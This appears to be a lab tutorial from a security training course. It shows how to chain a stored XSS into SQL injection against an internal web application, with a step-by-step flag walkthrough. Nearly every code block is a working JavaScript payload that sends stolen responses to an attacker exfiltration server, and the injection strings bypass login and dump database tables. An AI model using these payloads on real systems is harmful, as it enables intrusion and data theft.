 # Exploiting internal Web Applications I

In the last section, we discussed using an XSS vulnerability to exfiltrate data from internal web applications. In this section, we will use the XSS vulnerability to identify and exploit a security vulnerability in an entirely different web application located within the victim's private network.

## Identifying the Vulnerability

We will start with the same base XSS payload used in the previous sections and the exfiltration of the `/admin.php` endpoint. We will omit it here since we discussed the corresponding payload in the previous sections.

When the victim triggers the XSS vulnerability, the response is exfiltrated to the exfiltration server. We can see that the admin endpoint contains a reference to an internal web application at `https://internal.internal-webapps-1.htb`:

`HTML section with 'Administrator Dashboard' title and a note to admins about user management moving to a separate web application with a link.`

If we attempt to access the page directly, we are blocked:

`HTTP GET request to internal.internal-webapps-1.htb; response shows 403 Forbidden error.`

Thus, let us use the XSS vulnerability to enumerate the web application just like we did with the internal API in the last section. We will start by exfiltrating the index of the web application:

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://internal.internal-webapps-1.htb/', false);
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
This reveals that the internal web application is protected by authentication, as the index consists of a login form:

`HTML form for login with fields for username and password, a 'Remember me' checkbox, and a submit button.`

The XSS vulnerability enables us to interact with the internal web application fully. We could try default passwords or brute-force additional endpoints. However, this section will focus on a SQL injection vulnerability. From the login form, we can construct a valid login POST request that the internal web application accepts. Let us try a simple SQL injection by sending a username that contains a single quote:

```js
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("'test")}&pass=x`;
xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
This results in the following response, confirming that the internal web application is vulnerable to SQL injection:

`HTTP 500 - SQL Error`

## Exploiting the Vulnerability

We will exploit the SQL injection vulnerability by bypassing the login and dumping the database.

We will start with bypassing the authentication, which we can achieve with the username `' OR '1'='1'-- -`:

```js
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' OR '1'='1' -- -")}&pass=x`;
xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
This reveals the following information in the post-login screen:

`(1, 'admin', 'InternalAdmin2023!', 'This is the default admin account.')`

The data looks like a username, password, and account description. Let us confirm this by dumping the entire user table. We can detect the database system by enumerating common payloads like any other SQL injection vulnerability. In our case, we are dealing with a SQLite database. Since there seem to be four columns in the output, we can use the following payload to dump all tables:

```js
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT 1,2,3,group_concat(tbl_name) FROM sqlite_master-- -")}&pass=x`;
xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
Subsequently, we can dump the schema of the users table:

```js
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT 1,2,3,group_concat(sql) FROM sqlite_master WHERE name=\'users\'-- -")}&pass=x`;
xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
This reveals the following database schema:

```sql
CREATE TABLE `users` (
	`id` int(11) NOT NULL,
	`username` varchar(256) NOT NULL,
	`password` longtext NOT NULL,
	`info` longtext NOT NULL
)
```
Lastly, we can dump the users table iteratively with the following payload:

```js
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT id,username,password,info FROM users-- -")}&pass=x`;
xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
We can also dump other tables in the database with the same methodology. This shows how powerful an XSS vulnerability is, as it allows us to target vulnerable web applications normally inaccessible by an external attacker. Since the payload is executed in the victim's browser, internal web applications can be accessed and thus targeted as well. For more details on SQL injection vulnerabilities, check out the Advanced SQL Injections module.

Note: Keep in mind that there needs to be either a CORS misconfiguration in the internal web application or a CORS configuration that enables the vulnerable web application to interact with the internal web application. Otherwise, the Same-Origin policy prevents accessing the response from the internal web application.

## Exploiting internal Web Applications I Questions

**Question 1: Exploit the XSS vulnerability to target the internal web application and obtain the flag.**

1.  Add the necessary vHosts to your `/etc/hosts` file:
    ```bash
    sudo sh -c 'echo "10.129.177.173 exploitserver.htb internal-webapps-1.htb" >> /etc/hosts'
    ```
2.  Log in to the vulnerable site (`https://internal-webapps-1.htb`) using the credentials `htb-stdnt:...!`.
3.  Submit your base XSS payload as a guestbook entry:
    ```html
    <script src="https://exploitserver.htb/exploit"></script>
    ```
4.  Prepare a payload on the exploit server (`https://exploitserver.htb`) that attempts to enumerate tables of the `internal.internal-webapps-1.htb` app by way of SQL injection. The payload should use the `uname` parameter with `' UNION SELECT 1,2,3,group_concat(tbl_name) FROM sqlite_master-- -`.
    ```js
    var xhr = new XMLHttpRequest();
    var params = `uname=${encodeURIComponent("' UNION SELECT 1,2,3,group_concat(tbl_name) FROM sqlite_master-- -")}&pass=x`;
    xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.send(params);

    var exfil = new XMLHttpRequest();
    exfil.open("GET", "https://PWNIP:PWNPO/exfil?r=" + btoa(xhr.responseText), false);
    exfil.send();
    ```
5.  After the victim triggers the payload, decode the exfiltrated data to identify the table names (e.g., `users,secretdata`).
6.  Adjust the payload on the exploit server to enumerate the schema of the `secretdata` table using `' UNION SELECT 1,2,3,group_concat(sql) FROM sqlite_master WHERE name=\'secretdata\'-- -` in the `uname` parameter.
    ```js
    var xhr = new XMLHttpRequest();
    var params = `uname=${encodeURIComponent("' UNION SELECT 1,2,3,group_concat(sql) FROM sqlite_master WHERE name=\'secretdata\'-- -")}&pass=x`;
    xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.send(params);

    var exfil = new XMLHttpRequest();
    exfil.open("GET", "https://PWNIP:PWNPO/exfil?r=" + btoa(xhr.responseText), false);
    exfil.send();
    ```
7.  Decode the exfiltrated data to reveal the schema of the `secretdata` table (e.g., `CREATE TABLE 'secretdata' ('id' int(11) NOT NULL, 'data' longtext NOT NULL)`).
8.  Adjust the payload on the exploit server to dump the contents of the `secretdata` table using `' UNION SELECT id,data,1,2 FROM secretdata-- -` in the `uname` parameter.
    ```js
    var xhr = new XMLHttpRequest();
    var params = `uname=${encodeURIComponent("' UNION SELECT id,data,1,2 FROM secretdata-- -")}&pass=x`;
    xhr.open('POST', 'https://internal.internal-webapps-1.htb/check', false);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.send(params);

    var exfil = new XMLHttpRequest();
    exfil.open("GET", "https://PWNIP:PWNPO/exfil?r=" + btoa(xhr.responseText), false);
    exfil.send();
    ```
9.  After the victim triggers the payload, decode the exfiltrated data to find the flag.

